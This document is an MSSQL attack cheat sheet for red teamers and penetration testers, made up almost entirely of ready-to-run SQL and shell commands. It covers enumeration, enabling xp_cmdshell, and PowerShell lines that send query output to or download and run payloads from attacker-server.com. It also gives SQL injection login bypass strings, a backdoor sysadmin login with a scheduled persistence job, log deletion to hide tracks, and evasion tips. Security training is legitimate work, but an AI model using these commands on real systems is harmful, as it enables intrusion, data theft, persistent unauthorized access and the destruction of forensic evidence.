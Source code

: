 Here's a concise **MSSQL Cheat Sheet** specifically for red team members and penetration testers, focusing on common attack vectors and techniques used in offensive security.

### MSSQL Cheat Sheet for Red Team & Penetration Testing

---

### **1. Information Gathering**

#### **Find MSSQL Version**
```sql
SELECT @@VERSION;
```

#### **Find Hostname & Server Info**
```sql
SELECT HOST_NAME(), SERVERPROPERTY('ProductVersion'), SERVERPROPERTY('ProductLevel'), SERVERPROPERTY('Edition');
```

#### **Find Current Database**
```sql
SELECT DB_NAME();
```

#### **List All Databases**
```sql
SELECT name FROM sys.databases;
```

#### **List All Tables in Current DB**
```sql
SELECT * FROM information_schema.tables;
```

#### **List All Columns in a Specific Table**
```sql
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'your_table';
```

---

### **2. Enumeration & Privilege Escalation**

#### **List All Users**
```sql
SELECT name, type_desc, create_date, modify_date FROM sys.database_principals;
```

#### **Check if Current User is SysAdmin**
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

#### **Check User Roles**
```sql
EXEC sp_helpuser;
```

#### **Enumerate Linked Servers**
```sql
EXEC sp_linkedservers;
SELECT * FROM sys.servers;
```

#### **Find Permissions of Current User**
```sql
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
```

---

### **3. Lateral Movement & Linked Server Attacks**

#### **Execute a Command on a Linked Server**
```sql
EXEC ('SELECT @@VERSION;') AT LinkedServerName;
```

#### **Use `OPENQUERY` to Execute Commands**
```sql
SELECT * FROM OPENQUERY([LinkedServerName], 'SELECT * FROM master.sys.databases');
```

#### **Create a Linked Server**
```sql
EXEC sp_addlinkedserver @server='LinkedServer', @srvproduct='', @provider='SQLNCLI', @datasrc='IP_OR_HOSTNAME';
```

#### **Execute a Remote Command on a Linked Server (With `xp_cmdshell`)**
```sql
EXEC ('EXEC xp_cmdshell ''dir C:\'';') AT LinkedServerName;
```

---

### **4. Privilege Escalation via Stored Procedures**

#### **Enable `xp_cmdshell`**
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

#### **Execute Command Using `xp_cmdshell`**
```sql
EXEC xp_cmdshell 'whoami';
```

#### **Check if `xp_cmdshell` is Enabled**
```sql
EXEC sp_configure 'xp_cmdshell';
```

---

### **5. Data Exfiltration**

#### **Extract Data from a Table**
```sql
SELECT * FROM sensitive_table;
```

#### **Store Output of a Query into a File**
```sql
EXEC xp_cmdshell 'bcp "SELECT * FROM sensitive_table" queryout C:\output.txt -c -T -Slocalhost';
```

#### **Send Output to a Remote Server**
```sql
EXEC xp_cmdshell 'powershell.exe -Command "Invoke-WebRequest -Uri http://attacker-server.com -Method POST -Body (Get-Content C:\output.txt)"';
```

---

### **6. Code Execution**

#### **Run PowerShell from MSSQL**
```sql
EXEC xp_cmdshell 'powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadString(''http://attacker-server.com/script.ps1'')"';
```

#### **Download and Execute Payload via PowerShell**
```sql
EXEC xp_cmdshell 'powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile(''http://attacker-server.com/payload.exe'', ''C:\payload.exe''); Start-Process C:\payload.exe"';
```

---

### **7. SQL Injection**

#### **Basic Error-Based Injection**
```sql
' OR 1=1; --
```

#### **Extract Database Name via Injection**
```sql
' UNION SELECT DB_NAME(); --
```

#### **Extract Data via Injection**
```sql
' UNION SELECT username, password FROM users; --
```

#### **Bypass Login**
```sql
' OR '1'='1'; --
```

---

### **8. Persistence**

#### **Create a New User**
```sql
CREATE LOGIN backdoor WITH PASSWORD = 'SuperSecret!';
CREATE USER backdoor FOR LOGIN backdoor;
EXEC sp_addsrvrolemember 'backdoor', 'sysadmin';
```

#### **Create a Scheduled Task to Maintain Access**
```sql
EXEC msdb.dbo.sp_add_job @job_name = 'BackdoorPersistence';
EXEC msdb.dbo.sp_add_jobstep @job_name = 'BackdoorPersistence', @step_name = 'RunBackdoor', @subsystem = 'CmdExec', @command = 'powershell.exe -Command "Invoke-WebRequest -Uri http://attacker-server.com/backdoor.ps1"';
EXEC msdb.dbo.sp_add_jobschedule @job_name = 'BackdoorPersistence', @enabled = 1, @freq_type = 4, @freq_interval = 1;
```

---

### **9. Cleansing Tracks**

#### **Clear Logs**
```sql
EXEC sp_cycle_errorlog;
EXEC xp_cmdshell 'del C:\path\to\logfile.log';
```

#### **Delete Suspicious Jobs**
```sql
EXEC msdb.dbo.sp_delete_job @job_name = 'SuspiciousJob';
```

---

### **10. Defenses & Evasion**

#### **Evasion Techniques**
- **Obfuscate PowerShell**: Encode scripts with `Base64` before execution.
- **Use Web Proxies**: Direct traffic through intermediate servers to hide the source.
- **Use Trusted Processes**: Execute commands via trusted Windows services like `ntbackup`.

---

### **Key Tips for MSSQL Pentesting**
- Always check your **user privileges** (`IS_SRVROLEMEMBER`) to see if you have `sysadmin` access.
- Leverage **linked servers** for lateral movement.
- Use `xp_cmdshell` or custom stored procedures to execute system commands.
- Remember that persistence techniques, like creating new users or scheduled jobs, can help maintain access after an initial compromise.
- Be mindful of cleaning up logs and artifacts to hide your tracks.

---

This cheat sheet should give you a solid reference point for common MSSQL attacks used in red team operations. Always make sure to get proper authorization before conducting any security testing!